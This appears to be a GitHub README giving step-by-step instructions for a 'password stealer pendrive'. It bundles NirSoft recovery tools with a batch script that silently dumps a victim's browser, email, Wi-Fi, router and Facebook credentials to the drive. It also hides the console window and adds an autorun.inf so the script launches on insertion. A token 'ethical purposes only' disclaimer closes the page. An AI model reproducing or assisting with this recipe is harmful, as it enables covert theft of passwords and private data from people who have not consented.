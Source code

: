 # Password-Stealer-Pendrive


By using this process you can get the victims:

      Browser Downloads
      Browser History
      Browser Saved Passwords
      Facebook Cache
      Wifi History
      Router Passwords
      and others.....

All the process are done for you in Release option!!

You can download it and directly add it to your pendrive.

First of all go to this link https://www.nirsoft.net/password_recovery_tools.html


Then read the instructions and download those softwares
Then extract the .zip file and only save the extraxted files in your pendrive


Then delete:

      Dailupass.exe
      netpass.exe
      x64 (folder)
      
      
      
Then download:

      https://www.nirsoft.net/utils/browsing_history_view.html
      https://www.nirsoft.net/utils/web_browser_downloads_view.html
      https://www.nirsoft.net/utils/process_tcp_summary.html
      https://www.nirsoft.net/utils/router_password_recovery.html
      https://www.nirsoft.net/utils/facebook_cache_viewer.html
    
Your pendrive will look like this after downloading all the above files:

https://i.imgur.com/36rvypD.png



Finally, Create a folder named  Passwords

then create a file named  Start.bat 

Open Start.bat with notepad

Finally paste the code below:

      start BrowserDownloadsView.exe /stext Passwords\BrowserDownloads.txt
      start BrowsingHistoryView.exe /stext Passwords\BrowsingHistory.txt
      start ChromePass.exe /stext Passwords\ChromePass.txt
      start iepv.exe /stext Passwords\iepv.txt
      start mailpv.exe /stext Passwords\mailpv.txt
      start mspass.exe /stext Passwords\mspass.txt
      start PasswordFox.exe /stext Passwords\PasswordFox.txt
      start ProcessTCPSummary.exe /stext Passwords\ProcessTCPSummary.txt
      start PstPassword.exe /stext Passwords\PstPassword.txt
      start RouterPassView.exe /stext Passwords\RouterPassView.txt
      start WebBrowserPassView.exe /stext Passwords\WebBrowserPass.txt
      start WifiHistoryView.exe /stext Passwords\WifiHistoryView.txt
      start FBCacheView.exe /stext Passwords\FBCache.txt

then,

Create a shortcut for  Start.bat  named Start

then,

Right click on the shortcut you created 

Left click on Properties and in  Run  set it to  Minimized 

So you have successfully created a data stealer pendrive.

Your Pendrive should look like this:

https://i.imgur.com/44TPRS2.png

To start the stealing process you just have to click the  Start  shortcut then cmd will be opened in background and will save all the information to your pendrive.

TIP:

To make pendrive autorun  Start  shortcut itself when inserted:

Create a file name  autorun.inf  :

      [autorun]
      OPEN=XYZ.EXE



NOTE:
Use these programs for ethical purposes only. I am not responsible for any thing you do!!
